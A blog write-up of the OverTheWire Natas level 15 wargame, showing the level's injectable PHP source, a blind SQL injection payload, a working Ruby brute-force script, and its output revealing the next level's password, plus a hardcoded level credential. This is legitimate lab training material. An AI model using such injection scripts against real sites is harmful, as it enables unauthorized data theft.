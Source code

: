```yaml
---
layout: post
title: "OverTheWire Natas Level 15"
date: 2012-11-14T06:29:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - natas
 - php
 - sqlinjection
 - hacking
---
```


Up until now, none of the OverTheWire Natas challenges really gave me that much of an issue. This one however, took me a couple hours to complete. Level 15 is a fun blind sql-injection vulnerability. 

<!-- more -->

It starts out with a username check dialog, which pretty much only gives you a binary value as to if a username exists or not.

{% img /images/natas15_1.png %}

I looked at the source code, and couldn't see any way to inject some SQL to get it to retrieve the password for me. 

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas15</h1> 
<div id="content"> 
<? 

/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 

if(array_key_exists("username", $_REQUEST)) { 
    $link = mysql_connect('localhost', 'natas15', '<censored>'); 
    mysql_select_db('natas15', $link); 
     
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\""; 
    if(array_key_exists("debug", $_GET)) { 
        echo "Executing query: $query<br>"; 
    } 

    $res = mysql_query($query, $link); 
    if($res) { 
    if(mysql_num_rows($res) > 0) { 
        echo "This user exists.<br>"; 
    } else { 
        echo "This user doesn't exist.<br>"; 
    } 
    } else { 
        echo "Error in query.<br>"; 
    } 

    mysql_close($link); 
} else { 
?> 

<form action="index.php" method="POST"> 
Username: <input name="username"><br> 
<input type="submit" value="Check existence" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

I did notice though, that it would verify that a row was returned, so I could inject SQL to brute-force the password. Assuming that the password was 32 digits long (like the previous ones), this could take some time however, since the character set was uppercase, lowercase, and digits. That's up to 62 attempts per digit of the password. I started doing this manually to verify that this was a possibility. With the "debug" flag on, you can see the query, and that the first digit of the password is not "b".

{% img /images/natas15_1.png %}

I cycled through manually all the lowercase and upper case letters. Once I got partially through the numbers, I got a successful hit! This means that the password starts with a "3".

{% img /images/natas15_1.png %}

The next step for me, was to automate this process. I decided to write some ruby to accomplish it. This code seems to do the job: 

```
require 'uri'
require 'net/http'

url = URI.parse("http://natas15.natas.labs.overthewire.org/index.php")
http = Net::HTTP.new(url.host, url.port)
chars = ('a'..'z').to_a + ('A'..'Z').to_a + ('0'..'9').to_a
password = ""
found = false

# 64 was selected, since the password field is a varchar(64)
# Most likely, since all other passwords were 32 digits long, it'll be that
(1..64).each do |i|
 chars.each do |c| 
  found = false
  request = Net::HTTP::Post.new(url.request_uri)
  request.basic_auth("natas15", "m2azll7JH6HS8Ay3SOjG3AGGlDGTJSTV")
  query = 'natas16" AND SUBSTRING(password, ' + i.to_s + ', 1) LIKE BINARY "' + c
  request.set_form_data({"username" => query})
  response = http.request(request)

  if response.body.include?("This user exists")
   password += c
   found = true
   puts "Current pass: #{password}"
   break
  end
 end
 # If no letter/number was found, it's fairly safe to assume it's done
 break if !found
end

```

The output shows: 

```
mandreko$ ruby natas15.rb
Current pass: 3
Current pass: 3V
Current pass: 3Vf
Current pass: 3VfC
Current pass: 3VfCz
Current pass: 3VfCzg
Current pass: 3VfCzga
Current pass: 3VfCzgaW
Current pass: 3VfCzgaWj
Current pass: 3VfCzgaWjE
Current pass: 3VfCzgaWjEA
Current pass: 3VfCzgaWjEAc
Current pass: 3VfCzgaWjEAcm
Current pass: 3VfCzgaWjEAcmC
Current pass: 3VfCzgaWjEAcmCQ
Current pass: 3VfCzgaWjEAcmCQp
Current pass: 3VfCzgaWjEAcmCQph
Current pass: 3VfCzgaWjEAcmCQphi
Current pass: 3VfCzgaWjEAcmCQphiE
Current pass: 3VfCzgaWjEAcmCQphiEP
Current pass: 3VfCzgaWjEAcmCQphiEPo
Current pass: 3VfCzgaWjEAcmCQphiEPoX
Current pass: 3VfCzgaWjEAcmCQphiEPoXi
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9H
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Ht
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htl
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9Htlm
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmV
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3
Current pass: 3VfCzgaWjEAcmCQphiEPoXi9HtlmVr3L
```

And there you go, the password for level 16 shows up as the last line before it quits. 


